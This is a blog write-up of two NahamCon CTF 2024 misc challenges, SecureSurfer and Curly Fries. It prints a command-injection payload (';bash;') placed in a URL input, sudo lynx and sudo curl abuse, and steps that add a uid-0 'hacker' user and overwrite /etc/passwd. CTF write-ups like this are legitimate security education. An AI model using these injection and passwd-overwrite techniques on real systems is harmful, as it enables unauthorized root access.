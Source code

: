 +++
title = "NahamCon CTF 2024 WriteUp - Misc"
date = "2024-05-25T21:17:45+03:00"
author = ""
authorTwitter = "" #do not include @
tags = ["CTF", "Lynx", "Curl", "Passwd"]
keywords = ["", ""]
description = ""
showFullContent = false
readingTime = false
hideComments = false
color = "" #color from the theme settings
toc = true
cover = "/img/nahamcon_ctf_2024/logo.jpeg"
images = ["/img/nahamcon_ctf_2024/logo.jpeg"]
+++


## Introduction
NahamCon 2024 is taking place this weekend and they had a CTF as part of the online conference. I participated with team [fr334aks](https://twitter.com/fr334aks). 

We managed position 197. We did good on Web, Mobile and WarmUps but not well on other categories like Binary Exploitation and Crypto. 

{{< image src="/img/nahamcon_ctf_2024/cert.png" alt="" position="center" style="border-radius: 8px;" >}}

It was our first CTF of the year together, so it's not a bad start from a long break. Hopefully we get back to our winning ways :).

I only solved 2 challenges in Miscellaneous category that I am writing about in this post.


## 1. SecureSurfer

{{< image src="/img/nahamcon_ctf_2024/secure_surfer_1.png" alt="" position="center" style="border-radius: 8px;" >}}

We begin with ssh access to the challenge environment, we are also provided with [securesurfer.c](/files/nahamcon_ctf_2024/securesurfer.c) file. Our objective is to gain root access to get the flag.

{{< image src="/img/nahamcon_ctf_2024/secure_surfer_2.png" alt="" position="center" style="border-radius: 8px;" >}}

When we ssh, it seems the securesurfer program is executed and we are provided with a few options. 

If we look at the code provided, the only option that takes user input is option 6 which is a url that will be loaded using lynx browser on the terminal. 

We can see that the user input is not sanitized/validated, the only check done is that the url has to begin with `https://`.

{{< image src="/img/nahamcon_ctf_2024/secure_surfer_4.png" alt="" position="center" style="border-radius: 8px;" >}}

We can therefore inject our own commands to break out of the program and into a shell. After the url we can inject the below payload.

```sh
';bash;'
```
Once lynx program is done loading the url, we get a bash shell.

{{< image src="/img/nahamcon_ctf_2024/secure_surfer_3.png" alt="" position="center" style="border-radius: 8px;" >}}

To escalate our privileges, we find that the securesurfer user can run lynx as root.

{{< image src="/img/nahamcon_ctf_2024/secure_surfer_5.png" alt="" position="center" style="border-radius: 8px;" >}}

We can then try accessing the root folder using the below command.

```sh
sudo /usr/local/bin/lynx file:///root
```
{{< image src="/img/nahamcon_ctf_2024/secure_surfer_6.png" alt="" position="center" style="border-radius: 8px;" >}}

Here we see the get flag binary, we can then download it to our local directory and execute it to get the flag.

```sh
sudo /usr/local/bin/lynx -source file:///root/get_flag_random_suffix_21505252448959 > get_flag
```
{{< image src="/img/nahamcon_ctf_2024/secure_surfer_7.png" alt="" position="center" style="border-radius: 8px;" >}}

If we wanted to get a root shell, one way is to overwrite the passwd file to add a user with root privileges.

We'll begin by creating a password hash for the user we want to add to the passwd file, the password here is **hacker**.

```sh
openssl passwd -1 -salt hacker hacker
```
Then we'll copy the current passwd file to our directory and add our new user to the file, using the below format where we specify the user with id 0 to give root privileges. The username is **hacker**.

```sh
echo 'hacker:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash' >> passwd
```

{{< image src="/img/nahamcon_ctf_2024/secure_surfer_8.png" alt="" position="center" style="border-radius: 8px;" >}}

Then we'll launch lynx and overwrite the /etc/passwd with our modified passwd file.

```sh
sudo /usr/local/bin/lynx file:///home/securesurfer/passwd
```
Once we are in lynx, we will press **P** which is the print option, and we select **Save to a local file** and press enter.

{{< image src="/img/nahamcon_ctf_2024/secure_surfer_9.png" alt="" position="center" style="border-radius: 8px;" >}}

We can then update the filename to /etc/passwd.

{{< image src="/img/nahamcon_ctf_2024/secure_surfer_10.png" alt="" position="center" style="border-radius: 8px;" >}}

Once we say yes to Overwrite the file, we can quit lynx and switch to the `hacker` user, using the password `hacker` to get a root shell.

{{< image src="/img/nahamcon_ctf_2024/secure_surfer_11.png" alt="" position="center" style="border-radius: 8px;" >}}


## 2. Curly Fries

{{< image src="/img/nahamcon_ctf_2024/curly_fries_1.png" alt="" position="center" style="border-radius: 8px;" >}}

For this challenge, we begin by ssh into the challenge environment. Our objective is to escalate to root and get the flag.

Our user has sudo privileges to run curl impersonating the user fry, however this configuration is not vulnerable to abuse.

{{< image src="/img/nahamcon_ctf_2024/curly_fries_2.png" alt="" position="center" style="border-radius: 8px;" >}}

Looking around, we find that in fry's home folder we can read the bash_history file. This gives us their password.

{{< image src="/img/nahamcon_ctf_2024/curly_fries_3.png" alt="" position="center" style="border-radius: 8px;" >}}

Switching to the user fry, we see they can run curl as root but the configuration includes a wildcard. This is different from the previous configuration and we can abuse it.

{{< image src="/img/nahamcon_ctf_2024/curly_fries_4.png" alt="" position="center" style="border-radius: 8px;" >}}

Similar to the previous challenge, we'll use curl to overwrite the passwd file with a modified version that has the hacker user with root privileges.

I set up a python web server to serve the modified passwd file and then downloaded it and perform the overwrite.

```sh
sudo /usr/bin/curl 127.0.0.1:8000/health-check -o /etc/passwd
```

{{< image src="/img/nahamcon_ctf_2024/curly_fries_5.png" alt="" position="center" style="border-radius: 8px;" >}}

## Conclusion
Thanks to John Hammond, NahamSec and the rest of challenge creators for putting together yet another great CTF this year. I didn't put in a lot of time to solve more challenges but I still had a good time.

You can catch the conference live here: [NahamCon CTF 2024 Live Stream](https://www.youtube.com/live/76mNNVVBht0?si=E2TKu8fJD6SNXFCR)

